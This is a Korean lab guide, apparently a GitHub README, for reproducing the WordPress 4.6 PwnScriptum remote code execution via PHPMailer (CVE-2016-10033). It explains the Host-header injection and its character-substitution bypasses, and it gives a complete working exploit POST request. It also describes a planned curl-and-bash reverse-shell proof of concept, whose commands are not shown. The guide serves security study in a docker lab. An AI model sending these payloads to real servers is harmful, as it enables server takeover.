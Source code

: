 # Wordpress 4.6 Remote Code Execution Vulnerability(PwnScriptum)

**Contributors**

-   [한종혁(@ookk2007)](https://github.com/ookk2007)

<br/>

## 요약

-   PwnScriptum 취약점은 **CVE-2016-10033 취약점**(PHPMailer의 mailSend 함수에서 추가적인 인자를 허용하면서, 원격으로 코드를 실행시키는 취약점)을 이용해 **Wordpress 서버에 원격으로 코드를 실행시키는 취약점**이다.
-   Wordpress 웹사이트에서 특정 계정에 대해 **비밀번호 초기화 요청**을 보내면, WordPress 서버는 해당 계정에 등록된 이메일로 비밀번호 초기화 메일을 보내려고 한다. 이 때, PHPMailer를 사용해서 메일 전송 처리를 진행하고, 이 부분에 공격자가 코드를 삽입하면 **Wordpress 서버에서 해당 코드를 실행하게 된다.**
-   이를 위해서, 공격자는 `/wp-login.php?action=lostpassword`주소로 POST 요청을 보낸다. 이 때, 공격자가 심어놓는 코드는 Request Header 중 하나인 Host에 `target(any -froot@localhost -be ${run{command}} null)`형태로 들어간다.
-   Host 헤더에 들어가는 command에는 특수문자가 들어가면 안되고, 모든 것을 절대 경로로 입력해야 하는 등의 **제약이 존재한다.** 따라서, 이를 우회하기 위해 **`/`는 `${substr{0}{1}{$spool_directory}}`로 치환하고, `:`는 `${substr{13}{1}{$tod_log}}`로 치환하고, 공백(Space)은 `${substr{10}{1}{$tod_log}}`로 치환한다.**
-   이 가이드에서는,
   1. Host 헤더에 **touch 명령어**를 넣은 POST 요청을 보내서 실제로 빈 파일이 생기는지 테스트해볼 것이다.
   2. **curl 명령어**를 이용해, 리버스 쉘을 실행시키는 스크립트 코드를 Wordpress 서버에 다운로드시키고, **bash 명령어**를 이용해, 해당 쉘 스크립트를 실행시켜서 해당 서버의 쉘을 획득해볼 것이다. (PoC)

<br/>

## 환경 구성 및 실행
```
docker compose build
docker compose up -d
```
-   위의 두 명령어를 실행시키고, `docker ps` 명령어로, `wordpress` 컨테이너와 `mysql` 컨테이너가 정상적으로 실행중인지 확인한다.
-   `http://your_ip:8080/`에 접속하여 **Wordpress 초기 설정 페이지**를 확인한다. 언어 선택 후, 웹사이트 제목을 정하고, 관리자 계정을 생성하면 초기 설정은 끝난다.
-   ***만약, 위의 주소로 접속했는데 초기 설정 페이지가 나오지 않는다면, 자신의 방화벽 설정을 확인해보자. 8080포트가 허용되지 않은 경우일 수 있다.***
-   (선택사항) 1번 과정(touch 명령어를 통한 취약점 테스트)에서, 본 가이드는 '**Burp Suite**'를 사용한다. 본 가이드를 따라하고 싶다면, 'Burp Suite'나 'Fiddler'등의 웹 프록시 프로그램을 설치해놓자.
-   (선택사항) 2번 과정(PoC)에서, 쉘 스크립트를 전송해주는 **페이로드용 웹서버**가 필요하다. 본 가이드에서는 이 기능을 아주 간단하게만 구현한 **`sample-server.py` 파일을 제공**하고 있는데, 이를 이용하지 않고 자신만의 웹서버를 이용해도 된다.(curl 명령어를 통해 쉘 스크립트 파일만 다운로드 할 수 있는 서버이기만 하면 된다.)

<br/>

## 1. 취약점 Exploit 테스트
앞에서 생성한 Wordpress 서버(`http://your_ip:8080/`)에 다음과 같은 POST 요청을 보내면, **서버의 /tmp 주소에 success라는 빈 파일이 생길 것이다.**
```
POST /wp-login.php?action=lostpassword HTTP/1.1
Host: target(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}touch${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}success}} null)
Connection: close
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Accept: */*
Content-Length: 56
Content-Type: application/x-www-form-urlencoded

wp-submit=Get+New+Password&redirect_to=&user_login=admin
```
(참고로, 위의 POST 헤더의 데이터로 전달되는 user_login에는 실제 존재하는 계정의 ID가 들어가야한다.)<br>
이 요청을 보내보기 위해, 본 가이드는 Burp Suite를 사용하였다.
